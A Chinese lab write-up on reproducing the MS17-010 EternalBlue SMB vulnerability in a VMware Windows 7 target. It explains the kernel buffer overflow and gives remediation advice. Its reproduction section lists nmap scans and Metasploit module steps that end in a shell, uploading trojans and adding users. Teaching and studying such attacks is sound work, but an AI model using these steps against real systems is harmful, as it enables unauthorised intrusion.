







# MS17-010 Eternalblue | 永恒之蓝漏洞复现 |CVE-2017-0144/5/6/7/8

[TOC]

# 1. 概述

  永恒之蓝（Eternal Blue）爆发于2017年4月14日晚，是一种利用Windows系统的SMB协议漏洞来获取系统的最高权限，以此来控制被入侵的计算机。甚至于2017年5月12日， 不法分子通过改造“永恒之蓝”制作了wannacry勒索病毒，使全世界大范围内遭受了该勒索病毒，甚至波及到学校、大型企业、政府等机构，只能通过支付高额的赎金才能恢复出文件。不过在该病毒出来不久就被微软通过打补丁修复

  

## 1.1 SMB

### What is SMB?

  SMB(Server Message Block)是一个协议服务器信息块，它是一种客户机/服务器、请求/响应协议，通过SMB协议可以在计算机间共享文件、打印机、命名管道等资源，电脑上的网上邻居就是靠SMB实现的；SMB协议工作在应用层和会话层，可以用在TCP/IP协议之上，SMB使用TCP139端口和TCP445端口,SMB使用了NetBIOS的API。

### SMB工作原理是什么？

> 1. 首先客户端发送一个SMB negport 请求数据报，，并列出它所支持的所有SMB的协议版本。服务器收到请求消息后响应请求，并列出希望使用的SMB协议版本。如果没有可以使用的协议版本则返回0XFFFFH，结束通信。
> 
> 2. 协议确定后，客户端进程向服务器发起一个用户或共享的认证，这个过程是通过发送SessetupX请求数据包实现的。客户端发送一对用户名和密码或一个简单密码到服务器，然后通过服务器发送一个SessetupX应答数据包来允许或拒绝本次连接。
> 
> 3. 当客户端和服务器完成了磋商和认证之后，它会发送一个Tcon或TconX SMB数据报并列出它想访问的网络资源的名称，之后会发送一个TconX应答数据报以表示此次连接是否接收或拒绝。
> 
> 4. 连接到相应资源后，SMB客户端就能够通过open SMB打开一个文件，通过read SMB读取文件，通过write SMB写入文件，通过close SMB关闭文件。

## 1.2 漏洞分析

恶意代码会扫描开放445文件共享端口的Windows机器，无需用户任何操作，只要开机上网，不法分子就能在电脑和服务器中植入勒索软件、远程控制木马、虚拟货币挖矿机等恶意程序。

漏洞出现在Windows SMB v1中的内核态函数srv!SrvOs2FeaListToNt在处理FEA(File Extended Attributes)转换时，在大非分页池(内核的数据结构，Large Non-Paged Kernel Pool)上存在缓冲区溢出。函数srv!SrvOs2FeaListToNt在将FEA list转换成NTFEA(Windows NT FEA) list前会调用srv!SrvOs2FeaListSizeToNt去计算转换后的FEA lsit的大小。然后会进行如下操作：

> 1. srv!SrvOs2FeaListSizeToNt会计算FEA list的大小并更新待转换的FEA list的大小
> 
> 2. 因为错误的使用WORD强制类型转换，导致计算出来的待转换的FEA list的大小比真正的FEA list大
> 
> 3. 因为原先的总大小计算错误，导致当FEA list被转化为NTFEA list时，会在非分页池导致缓冲区溢出

## 1.3 风险等级

|  评定方式   | 等级  |
|  ----  | ----  |
| CVSS Score | 9.3 |
| Confidentiality Impact  | Complete |
| Integrity Impact  | Complete |
| Availability Impact  | Complete |
| 漏洞影响 | 信息泄露 |
| 实现难度  | 中等 |
| 基础权限  | 不需要 |
| 漏洞类型  | 缓存区溢出 |

## 1.4 影响范围

Windows 版本包括但不限于：WindowsNT，Windows2000、Windows XP、Windows 2003、Windows Vista、Windows 7、Windows 8，Windows 2008、Windows 2008 R2、Windows Server 2012 SP0。

以上系统打开445号端口都容易受到影响

由于此次泄露的漏洞覆盖了大部分常见的 Windows 版本(包括微软不再提供更新服务的 Windows XP 和 Windows Server 2003)，网络空间中仍然存在大量可被入侵的设备。

## 1.5 影响危害

勒索软件不仅针对家庭用户,企业也在感染勒索软件之列:

> - 临时或永久行丢失敏感&专有信息
> - 中断正常运营
> - 恢复系统和文件所造成的经济损失
> - 对组织声誉的潜在损害

支付赎金并不能保证加密文件会被释放；它只保证黑客收到受害者的钱和他们的银行信息。此外，解密文件并不意味着恶意软件感染本身已被删除。

# 2. 环境配置

## 2.1 配置靶机

___本次漏洞复现将采用在VMware中安装虚拟机的方法___

从[这里](https://msdn.itellyou.cn/)下载 __Window 7__ 的镜像文件，建议中文版和英文多选几个都试试，选2009的版本一般都能成功，但不带sp1/2/3的一般要手动安装vmtool，不过在本次漏洞复现中不用在意这些细节。

## 2.2 访问测试

一般都需要关闭防火墙

# 3. 漏洞复现

## 3.1 主机与端口发现

#### 方法一：使用nmap

1. 快速扫描发现445端口open
   
    `nmap -sS -T5 ip`

   

2. 使用vuln脚本扫描确认漏洞存在

    `nmap -sV --script=vuln -p 445 ip`

    

#### 方法二：使用msf中的auxiliary/scanner模块

1. 搜索相关漏洞模块

    `search ms17_010`

2. 选着3：扫描模块
   1. 注：此模块支持网络断扫描，比如在公司的局域网下扫描公司全网段的192.168.5.0/24，此模块会自动检索存在此漏洞的主机

    

## 3.2 漏洞利用

1. 在Kali中打开msf `msfconsole`

2. 搜索相关漏洞模块 

    `search ms17_010`

3. 选择利用模块

    `use 0`

    

4. 设置相应选项，这里只需设置目标ip即可，其他默认,并运行
   
   `set rhosts ip`

   `run`

    

5. 成功连接靶机，尝试掉出靶机信息，并截图；也可以尝试其他操作

    

6. Getshell,可以上传文件，木马，也可以添加用户，至此完成对靶机的控制

    

# 4. 修复建议

1. 安装微软官方补丁(MS17-010),如果无法应用补丁，请考虑：
    
    禁用 SMBv1 
      1. 对于客户端操作系统：

            1. 打开“控制面板”，单击“程序”，然后单击“打开或关闭 Windows 功能”。
            2. 在 Windows 功能窗口中，清除SMB1.0/CIFS 3. 文件共享支持复选框，然后单击确定关闭窗口。
            重新启动系统。

      2. 对于服务器操作系统：

            1. 打开服务器管理器，然后单击管理菜单并选择删除角色和功能。
            2. 在功能窗口中，清除SMB1.0/CIFS 文件共享支持复选框，然后单击确定关闭窗口。

            3. 重新启动系统。
    
2. 通过边界设备关闭UDP端口137-138，TCP端口139，TCP端口445，在网络边界设备设置阻止所有版本的SMB
   
   *注：禁用或阻止SMB 可能会阻碍对共享文件、数据或设备的访问，从而产生问题。*
3. 启用垃圾邮件过滤器以防止网络钓鱼电子邮件送达至最终用户，使用发件人策略框架 (SPF)、域消息身份验证报告和一致性(DMARC) 和域密钥识别邮件 (DKIM) 等技术对入站电子邮件进行身份验证以防止电子邮件欺骗
4. 管理特权帐户的使用。实施最小特权原则。除非绝对需要，否则不应为用户分配管理访问权限。那些需要管理员帐户的人应该只在必要时使用它们
5. 以最低权限配置访问控制，包括文件、目录和网络共享权限。如果用户只需要读取特定文件，则他们不应拥有对这些文件、目录或共享的写入权限
6. 禁用通过电子邮件传输的 Microsoft Office 文件中的宏脚本。考虑使用 Office Viewer 软件打开通过电子邮件而不是完整的 Office 套件应用程序传输的 Microsoft Office 文件
7. 确保定时对相关设备进行适当的备份
  
    
# 5. 总结

防御一般勒索软件威胁措施：

- 确保防病毒软件是最新的。
- 实施数据备份和恢复计划，将敏感或专有数据的副本保存在单独且安全的位置。敏感数据的备份副本不应容易从本地网络访问。
仔细检查电子邮件中包含的链接，不要打开未经请求的电子邮件中包含的附件​​。
- 仅从您了解和信任的网站下载软件，尤其是免费软件。
- 为您的操作系统和 Web 浏览器启用自动补丁。
- 一旦中招及时报警(doge...

# 6. References

BBC News (2017) *'NSA malware' released by Shadow Brokers hacker group.* April 10, 2017.

CISA (2018) _Indicators Associated With WannaCry Ransomware_ Available at: https://www.cisa.gov/uscert/ncas/alerts/TA17-132A (Accessed at: 29 Aug 2022).

CVE Details (2018) _CVE-2017-0146_. Available at: https://www.cvedetails.com/cve/CVE-2017-0146/...(Accessed: 29 Aug 2022).

maybezyy. (2018) '【漏洞分析】MS17-010：深入分析“永恒之蓝”漏洞', _CSDN_, 03 Oct. Available at: https://blog.csdn.net/luoshenwei3533/article/details/...(Accessed: 29 Aug 2022).
